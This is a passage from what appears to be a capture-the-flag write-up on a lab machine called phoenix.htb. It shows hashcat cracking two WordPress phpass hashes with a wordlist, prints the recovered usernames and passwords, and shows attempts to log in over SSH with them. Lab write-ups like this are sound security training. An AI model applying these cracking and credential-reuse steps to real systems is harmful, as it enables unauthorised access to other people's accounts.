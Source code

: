 ### Crack Hashes

The newer versions of `hashcat` will do mode detection for me which identifies these are mode 400, phppass, WordPress (MD5), Joomla (MD5):

```

$ /opt/hashcat-6.2.5/hashcat.bin hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

400 | phpass | Generic KDF
...[snip]...
$P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc.:phoenixthefirebird14   
...[snip]...
$P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G.:superphoenix
...[snip]...

```

That’s passwords for both users:

```

phoenix:phoenixthefirebird14
john:superphoenix

```

### SSH - Fail

I’ll try each of these passwords with the username over SSH. I almost always connect with `sshpass`, but this is weird because it prints a banner, but then just returns to my local prompt:

```

oxdf@hacky$ sshpass -p 'phoenixthefirebird14' ssh phoenix@phoenix.htb
$$$$$$$\  $$\                                     $$\           
$$  __$$\ $$ |                                    \__|          
$$ |  $$ |$$$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$\  $$\ $$\   $$\ 
$$$$$$$  |$$  __$$\ $$  __$$\ $$  __$$\ $$  __$$\ $$ |\$$\ $$  |
$$  ____/ $$ |  $$ |$$ /  $$ |$$$$$$$$ |$$ |  $$ |$$ | \$$$$  / 
$$ |      $$ |  $$ |$$ |  $$ |$$   ____|$$ |  $$ |$$ | $$  $$<  
$$ |      $$ |  $$ |\$$$$$$  |\$$$$$$$\ $$ |  $$ |$$ |$$  /\$$\ 
\__|      \__|  \__| \______/  \_______|\__|  \__|\__|\__/  \__|

```

I’ll drop out of `sshpass` and try entering the password manually:

```

oxdf@hacky$ ssh phoenix@phoenix.htb
$$$$$$$\  $$\                                     $$\           
$$  __$$\ $$ |                                    \__|          
$$ |  $$ |$$$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$\  $$\ $$\   $$\ 
$$$$$$$  |$$  __$$\ $$  __$$\ $$  __$$\ $$  __$$\ $$ |\$$\ $$  |
$$  ____/ $$ |  $$ |$$ /  $$ |$$$$$$$$ |$$ |  $$ |$$ | \$$$$  / 
$$ |      $$ |  $$ |$$ |  $$ |$$   ____|$$ |  $$ |$$ | $$  $$<  
$$ |      $$ |  $$ |\$$$$$$  |\$$$$$$$\ $$ |  $$ |$$ |$$  /\$$\ 
\__|      \__|  \__| \______/  \_______|\__|  \__|\__|\__/  \__|
Password:

```
